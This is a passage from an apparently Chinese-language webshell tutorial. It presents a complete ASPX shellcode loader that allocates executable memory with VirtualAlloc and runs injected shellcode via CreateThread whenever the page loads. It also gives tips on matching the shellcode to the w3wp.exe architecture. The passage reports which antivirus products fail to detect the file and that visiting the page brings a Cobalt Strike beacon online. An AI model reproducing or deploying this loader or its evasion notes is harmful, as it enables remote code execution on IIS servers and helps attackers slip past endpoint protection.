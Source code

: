 以下是aspx文件的代码，主要使用C#编写，导入了`System`和`System.Runtime.InteropServices`命名空间。

然后，它声明了两个P/Invoke方法，这些方法是.NET中用于调用Windows API或者其他非.NET DLL的方法。这两个方法是`VirtualAlloc`和`CreateThread`，它们来自`kernel32.dll`，一个是Windows系统的核心库

接下来是`Page_Load`方法，这是ASP.NET页面生命周期中的一个重要事件。在页面首次加载和后续的请求中，它都会被触发

```asp
<%@ Page Language="C#" %>
<%@ import Namespace="System"%>
<%@ import Namespace="System.Runtime.InteropServices"%>
<script language="c#" runat="server">
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(uint lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress,IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

public void Page_Load(object sender, EventArgs e){
	byte[] esc = new byte[928] {“填写C#的shellcode”};
	IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (uint)esc.Length, 0x1000, 0x40);
	Marshal.Copy(esc, 0, funcAddr, esc.Length);
	IntPtr hThread = IntPtr.Zero;
	uint threadId = 0;
	IntPtr pinfo = IntPtr.Zero;
	hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
	Response.Write("CreateThread: 0x" + hThread.ToString("x2") + "<br>");
   return;
}
</script>
```



在上述代码中，填写C#的shellcode要注意`w3wp.exe`的架构，w3wp.exe是IIS的工作进程，我们的aspx文件都是通过w3wp.exe来解析的，就如此处的`w3wp.exe`的架构是x64的，那就需要填写x64的shellcode

<img src="Webshell专题/image-20230707120718329.png" alt="image-20230707120718329" style="zoom:67%;" />	



360和火绒都不查杀此文件，但是WindowsDefender会查杀

![image-20230707121418517](Webshell专题/image-20230707121418517.png)	

<img src="Webshell专题/image-20230707221833150.png" alt="image-20230707221833150" style="zoom:67%;" />	



网页访问aspx文件时，cobaltstrike上线成功，并且360核晶也没有拦截

<img src="Webshell专题/image-20230707130455544.png" alt="image-20230707130455544" style="zoom: 50%;" />	

​				


